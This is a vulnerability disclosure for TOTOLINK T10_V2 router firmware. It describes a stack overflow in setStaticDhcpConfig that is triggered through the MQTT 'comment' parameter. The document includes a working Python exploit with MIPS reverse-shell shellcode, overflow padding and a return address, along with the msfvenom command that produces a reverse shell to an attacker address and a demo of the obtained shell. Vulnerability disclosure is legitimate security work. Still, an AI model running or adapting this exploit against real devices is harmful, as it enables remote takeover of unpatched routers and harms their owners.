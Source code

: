 Information
===========

**Vendor of the products**: TOTOLINK <br>

**Vendor's website**: http://www.totolink.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: TOTOLINK T10_V2 <br>

**Affected firmware version**: V5.9c.5061_B20200511 <br>

**Firmware download address**: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/172/ids/36.html <br>

Overview
===========

**TOTOLINK T10_v2 V5.9c.5061_B20200511** has a **stack overflow** vulnerability detected at function **setStaticDhcpConfig**.
Attackers can send dirty data by mqtt packet into parameter **comment** to control the return address and execute shellcode or make DoS attack. <br>

Vulnerability details
=====================
The vulnerability is detected at **/lib/cste_modules/lan.so** <br>

In the function **setStaticDhcpConfig**, the content obtained by program through parameter **comment** given by MQTT data packet is passed to variable **v9**. 
Then, the variable **v9** will copy to the variable **v17+2**, however,**v17** is on the stack,but there isn't any length check of **v9**.
So we can set **addEffect** = **1** and **macAddress** = **which data you like** to execute **strcpy**,and set the length of **comment's content** very long to cause stack overflow. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/4.jpg) <br>

Above all, attackers can send a MQTT data packet and control the content of parameter **comment** to cause stack overflow. <br>

Proof of Code
====================
```python
from pwn import *
import paho.mqtt.client as mqtt
import threading

context(os = 'linux', arch = 'mips', log_level = 'debug')

buf =  ""
buf += "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21"
buf += "\xfd\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24"
buf += "\x0c\x01\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f"
buf += "\xfd\xff\x0f\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf"
buf += "\x09\x1d\x0e\x3c\x09\x1d\xce\x35\xe4\xff\xae\xaf"
buf += "\x37\x02\x0e\x3c\xc0\xa8\xce\x35\xe6\xff\xae\xaf"
buf += "\xe2\xff\xa5\x27\xef\xff\x0c\x24\x27\x30\x80\x01"
buf += "\x4a\x10\x02\x24\x0c\x01\x01\x01\xfd\xff\x11\x24"
buf += "\x27\x88\x20\x02\xff\xff\xa4\x8f\x21\x28\x20\x02"
buf += "\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff\xff\x10\x24"
buf += "\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
buf += "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf"
buf += "\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf"
buf += "\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24"
buf += "\x0c\x01\x01\x01"

pay = "a"*122 + "\x90\x03\x42"

client = mqtt.Client()
client.connect("192.168.55.1",1883,60)
client.publish('totolink/router/setting/setStaticDhcpConfig',payload='{"topicurl":"setting/setStaticDhcpConfig","addEffect":"0","enable":"1","macAddress":":bbbb","comment":"'+pay+'"}'+'bbbbb'+buf)
```
**PS:** <br>
The offset maybe different in each device. <br>
**\x90\x03\x42** is the address which shellcode in,to get the address,you need to use gdbserver. <br>
The shellcode is which made by msf to reverse the shell <br>
```python
msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.55.2 LPORT=2333 -f py -o shellcode.txt
```

Attack Demo
========


Get the reverse shell!
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/2.jpg)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/3.jpg)
you can clearly sea the connection between two device is built.
